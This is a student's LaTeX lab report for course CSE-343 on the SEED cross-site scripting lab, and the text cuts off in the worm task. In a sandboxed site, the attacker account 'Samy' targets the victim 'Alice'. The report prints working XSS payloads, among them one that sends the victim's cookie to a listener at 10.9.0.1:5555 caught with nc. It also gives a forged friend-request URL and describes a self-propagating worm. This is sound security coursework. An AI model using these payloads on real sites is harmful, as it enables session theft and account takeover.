% Created 2022-05-02 Mon 09:41
% Intended LaTeX compiler: pdflatex
\documentclass[11pt]{article}
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage{graphicx}
\usepackage{longtable}
\usepackage{wrapfig}
\usepackage{rotating}
\usepackage[normalem]{ulem}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{capt-of}
\usepackage{hyperref}
\usepackage[margin=0.5in]{geometry}
\author{Marc Soda Jr}
\date{\today}
\title{CSE-343}
\hypersetup{
 pdfauthor={Marc Soda Jr},
 pdftitle={CSE-343},
 pdfkeywords={},
 pdfsubject={},
 pdfcreator={Emacs 28.1 (Org mode 9.5.2)},
 pdflang={English}}
\begin{document}

\maketitle
\tableofcontents

\section*{Setup:}
\label{sec:org278fb66}
\begin{itemize}
\item Most of the mappings in /etc/hosts were already setup. I only had to add the one for seed-server.com
\item I was having trouble getting the containers working. The solution was to delete all of the previous containers on the machine as they were causing come sort of conflict.
\item Everything seems to work and I can establish a connection to seed-server.com through Firefox on the machine.
\end{itemize}
\section*{Task 1:}
\label{sec:orgd4a29f0}
\begin{itemize}
\item I logged in as Samy (who I will be using as my attacker).
\item I went to her profile settings and added `<script>alert("XSS ATTACKED")</script>` to the brief description field of her profile.
\item After refreshing I saw a popup saying my alert message. This lead me to believe the attack was successful.
\item I then logged in as Alice (the victim in this context) and went to Samy's profile. Again, I received the malicious popup, indicating that the attack was successful. See screenshot.
\end{itemize}
\begin{center}

\includegraphics[width=.9\linewidth]{./images/0.jpg}
\end{center}
\section*{Task 2:}
\label{sec:org5b16a27}
\begin{itemize}
\item I logged back in as Samy and edited the previous code in the brief description section to read `<script>alert(document.cookie)</script>`
\item The cookie information was displayed on my page indicating that the attack may have been successful.
\item I then logged out and logged in as Alice and went to Samy's profile. The cookie information was alerted to the page, indicating that the attack was successful. See screenshot.
\end{itemize}
\begin{center}

\includegraphics[width=.9\linewidth]{./images/1.jpg}
\end{center}
\section*{Task 3:}
\label{sec:org35dd949}
\begin{itemize}
\item I logged back in as Samy and edited the previous code in the brief description section to read `<script>document.write('<img src=\url{http://10.9.0.1:5555?c}=' + escape(document.cookie) + ' >');`
\item I then went to the seed console and ran `nc -lknv 5555` to listen on port 5555
\item I then logged out and logged back in as Alice and went to Sammy's profile. The cookie contents were received therefore the attack was successful. See screenshot.
\end{itemize}
\begin{center}

\includegraphics[width=.9\linewidth]{./images/2.jpg}
\end{center}
\section*{Task 4:}
\label{sec:orga8db40b}
\begin{itemize}
\item I logged back in as Samy and edited the about me section of her profile as indicated on the lab.
\item I used HTTP Live header to figure out how to construct the URL. See screenshot.
\item The URL I used was `"\url{http://www.seed-server.com/action/friends/add?friend=59}" + token + ts`.
\end{itemize}
\begin{center}

\includegraphics[width=.9\linewidth]{./images/3.jpg}
\end{center}
\begin{itemize}
\item I was then able to log in as Alice, navigate to Samy's page, and see that Samy was added as Alice's friend.
\item Question 1:
\begin{itemize}
\item ts and token represent two security tokens that need to be sent with the friend request for it to be valid. It is a security mechanism. As I found out using HTTP Live Header, they are appended to the end of the URL.
\item Yes. You can add the code to a JavaScript function and add code to a different section of the profile (such as the brief description section). This code will load the malicious JavaScript code and run the attack successfully.
\end{itemize}
\end{itemize}
\section*{Task 5:}
\label{sec:org5d821b3}
\begin{itemize}
\item I logged in an Samy and edited the HTML of the About Me section to read:
\end{itemize}
\begin{center}

\includegraphics[width=.9\linewidth]{./images/4.jpg}
\end{center}
\begin{itemize}
\item When I logged in as Alice, navigated to Samy's page, then checked Alice's profile I noticed that her About Me section contained my malicious message, indicating that the attack was a success. See screenshot.
\end{itemize}
\begin{center}

\includegraphics[width=.9\linewidth]{./images/5.jpg}
\end{center}
\begin{itemize}
\item Question 3:
\begin{itemize}
\item We need line one so Samy doesn't attack himself. Removing line one will cause the About Me section of Samy to display the malicious message.
\end{itemize}
\end{itemize}

\section*{Task 6:}
\label{sec:org120176e}
\begin{itemize}
\item The worm is now self-propagating. See below screenshot for the code added to Samy's About Me section.
\end{itemize}
\begin{center}

\includegraphics